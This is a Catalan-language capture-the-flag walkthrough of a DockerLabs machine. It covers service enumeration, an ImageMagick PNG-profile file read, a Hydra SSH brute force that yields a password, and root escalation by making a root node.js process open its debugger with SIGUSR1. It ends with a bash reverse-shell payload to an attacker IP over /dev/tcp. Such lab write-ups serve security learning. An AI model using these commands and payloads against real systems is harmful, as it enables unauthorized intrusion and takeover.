Aquest desafiament de ciberseguretat, disponible a <a target="_blank" href="https://dockerlabs.es">DockerLabs</a> (El Pingüino de Mario), guia els participants a través d'una intrusió en un servidor. El procés implica l'enumeració de serveis, l'explotació d'una vulnerabilitat de LFI, l'accés a SSH mitjançant força bruta i l'escalada de privilegis a través d'un procés de node.js per aconseguir accés root.

## Taula de continguts

## Enumeració

```bash
nmap -p- 172.17.0.2 -n -P
```



```bash
nmap -p22,80,443 -sVC -n -Pn 172.17.0.2
```



Visitem el lloc web als ports 80 i 443, i apareix la mateixa pàgina. Sembla ser una eina on podem seleccionar una imatge i les diferents versions de mida que volem per a la imatge.



En enviar el formulari amb una imatge i diferents versions, les mostra en una pàgina.



Fem una mica de fuzzing al servei web utilitzant gobuster.

```bash
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://172.17.0.2/ -x py,php,txt,db,htm,html,back -t 50 -k
```

Trobem el clàssic info.php, amb informació de PHP.



A `/info.php`, trobem un munt d'extensions PHP instal·lades i una versió de PHP una mica desactualitzada `PHP Version 7.2.24-0ubuntu0.18.04.3`.

També veiem que els mòduls `GD` i `Image Magick` estan instal·lats, cosa que pot ser utilitzada per al servei de transformació d'imatges.

## Intrusió

És probable que existeixin diferents maneres de realitzar la intrusió; en aquest cas, optem per una possible LFI (crec que això seria LFI, però no n'estic segur) que ocorre durant la transformació d'ImageMagick.

Més informació a:

- https://imagetragick.com/
- https://www.hackplayers.com/2023/02/imagemagick-la-vulnerabilidad-oculta.html

### LFI

Seguint les instruccions de hackplayers, instal·lem les dependències necessàries:

```bash
sudo apt install pngcrush imagemagick exiftool exiv2 -y
```

Utilitzem un PNG i afegim el camp de perfil amb la ruta que volem injectar. Això crearà l'arxiu pngout.png.



Verifiquem que s'hagi afegit correctament.

```bash
exiv2 -pS pngout.png
```



Ara fem servir la imatge pngout.png al servei web, seleccionem una mida i fem clic a "Resize".



Apareixen les dues imatges, fem clic dret en una i la descarreguem al nostre Kali, anomenant-la resultat.png.



Verifiquem si les dades s'han filtrat en el perfil.

```bash
identify -verbose resultat.png
```



Sembla que les dades s'han filtrat correctament. Copiem tots els bytes hexadecimals del perfil i els posem en una sola línia. Després, els incloem en el següent Python:

```bash
python3 -c 'print(bytes.fromhex("BYTES_IN_HEX").decode("utf-8"))'
```

I el resultat:



Genial, ara tenim un LFI, i podem veure que hi ha un usuari anomenat `lenam` i un altre anomenat `application`.

### Força Bruta SSH

Si intentem buscar altres arxius interessants, no trobem res. Intentem un atac de força bruta amb l'usuari `lenam` utilitzant Hydra.

```bash
hydra 172.17.0.2 ssh -t 64 -l lenam -P /usr/share/wordlists/rockyou.txt -f -vV
```

Amb una mica de paciència, trobem la contrasenya SSH per a l'usuari lenam.



## Escalada de Privilegis

Accedim via SSH utilitzant l'usuari `lenam` i la contrasenya `loverboy`.



Veiem que podem executar la comanda `/bin/kill` com a root amb la contrasenya de lenam.

També observem els processos que està executant root i veiem que s'està executant un procés de node.js.

```bash
ps aux | grep root
```



Verifiquem si hi ha ports locals oberts i trobem els ports 8000 i 9000.

```bash
netstat -ano | grep LISTEN
```



El port 8000 sembla ser una aplicació node.js.

```bash
curl 127.0.0.1:8000
```



Com que podem matar qualsevol procés, intentem obrir el depurador de node.js enviant un senyal `SIGUSR1` al procés de node.js. Això hauria de reiniciar l'aplicació node.js amb el port de depuració obert (per defecte, el port 9229) i accessible a través de websockets.

Més informació:

- https://nodejs.org/en/learn/getting-started/debugging
- https://book.hacktricks.xyz/linux-hardening/privilege-escalation/electron-cef-chromium-debugger-abuse#starting-inspector-in-running-processes

Per obtenir el PID del procés de node.js:

```bash
ps aux | grep node | grep root | awk '{print $2}'
```

La comanda completa:

```bash
sudo /bin/kill -s SIGUSR1 $(ps aux | grep node | grep root | awk '{print $2}')
```

Verifiquem si el port de depuració i inspecció 9229 ara està obert.



Bingo! Ha funcionat. Ara entrem a l'aplicació node.js amb l'inspector.

```bash
node inspect 127.0.0.1:9229
```



Escoltem amb netcat.

```bash
nc -lvnp 5000
```

I executem la següent càrrega útil a la consola de depuració, reemplaçant la IP 10.0.2.15 per la teva.

```javascript
exec("process.mainModule.require('child_process').exec('bash -c \"/bin/bash -i >& /dev/tcp/10.0.2.15/5000 0>&1\"')")
```



Felicitats, ara som root.